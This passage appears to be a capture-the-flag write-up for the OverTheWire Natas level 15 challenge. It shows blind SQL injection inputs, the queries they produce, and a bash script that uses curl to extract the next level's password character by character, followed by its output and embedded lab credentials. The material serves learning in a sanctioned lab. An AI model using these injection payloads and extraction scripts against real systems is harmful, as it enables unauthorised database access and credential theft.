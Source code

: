 ```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "n%"#
Result : true
```

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "w%"#
Result : false
```

```text
natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "W%"#
Result : true
```

Lets create a bash script to get the password

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND (SELECT password FROM users WHERE username=\"natas16\" LIMIT 1) LIKE BINARY \"$password$letter%\"#"
        data="username=natas16$injection"
        curl_output=$(curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==' -d "$data")
        if echo $curl_output | grep -q "This user exists."; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
[+] Password: W
[+] Password: Wa
[+] Password: WaI
[+] Password: WaIH
[+] Password: WaIHE
[+] Password: WaIHEa
[+] Password: WaIHEac
[+] Password: WaIHEacj
[+] Password: WaIHEacj6
[+] Password: WaIHEacj63
[+] Password: WaIHEacj63w
[+] Password: WaIHEacj63wn
[+] Password: WaIHEacj63wnN
[+] Password: WaIHEacj63wnNI
[+] Password: WaIHEacj63wnNIB
[+] Password: WaIHEacj63wnNIBR
[+] Password: WaIHEacj63wnNIBRO
[+] Password: WaIHEacj63wnNIBROH
[+] Password: WaIHEacj63wnNIBROHe
[+] Password: WaIHEacj63wnNIBROHeq
```